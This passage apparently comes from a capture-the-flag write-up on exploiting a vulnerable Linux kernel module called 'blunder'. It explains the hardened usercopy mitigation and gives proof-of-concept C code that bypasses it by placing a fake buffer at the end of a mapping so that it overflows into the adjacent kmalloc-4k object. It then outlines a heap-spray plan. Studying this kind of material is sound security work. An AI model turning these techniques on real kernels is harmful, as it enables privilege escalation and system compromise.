 ```console
[ 135.385673]  __check_object_size.part.0+0x134/0x150
[ 135.386618]  __check_object_size+0x1d/0x30
[ 135.387477]  blunder_ioctl+0x238/0x3e0 [blunder]
```

It looks like modern kernels have a mitigation called [hardened usercopy](https://lwn.net/Articles/695991/), which checks that "what is being copied fits within the size of the object allocated" when calling `copy_to_user` and `copy_from_user`. Since we are attempting to write 8192 bytes to a kmalloc-4k object, the check fails. This effectively kills heap overflow from one object to another. Isn't there anything we can do?

Turns out, there is. We can bypass this mitigation if we write directly to the object next to ours, meaning the `dest` argument of `copy_from_user` must point to the target object. We can get this by creating a fake `blunder_buffer` exactly at the end of our mapping, so its data starts at the beginning of the next object. Then, we can link it to our list of buffers by modifying the first `blunder_buffer` in the mapping. In order to do so, we'll need to get its kernel address from the leak. Let's try it!

```cpp
[...]
// Get mapping address
struct blunder_buffer* buf = g_p;
uint64_t mapping_addr = (uint64_t)buf->buffers_node.next - 0x40;

// Create fake buffer
struct blunder_buffer* fake_buf = g_p + 0x1000 - sizeof(struct blunder_buffer);
fake_buf->free = 1;
fake_buf->buffer_size = 0x1000;

// Link it after our first buffer
buf->buffers_node.next = mapping_addr + 0x1000 - sizeof(struct blunder_buffer);

char* too_big_data = malloc(0x1000);
send_blunder_message_nocheck(too_big_data, 0x1000, NULL, 0);
```
{: file="poc.c" }

Running this crashes the vm, which means we are successfully overflowing into some object and bypassing the mitigation!


## Exploitation
### First primitives
Before looking for some target object to overwrite, let's consider the powerful spray primitive we have. When we `open` the device, a `blunder_proc` is allocated in kmalloc-128. Then, when we `mmap` a page for the device, it is allocated in kmalloc-4k. Because of the leaks discussed earlier, we are able to obtain the address of both objects. This leads to the following strategy:
1. Allocate a bunch of mappings in kmalloc-4k.
2. Get their kernel addresses and look for two of them that are adjacent.
3. Free the second one and reallocate it with a target object.
4. Trigger the overflow on the first one to overwrite the target object.
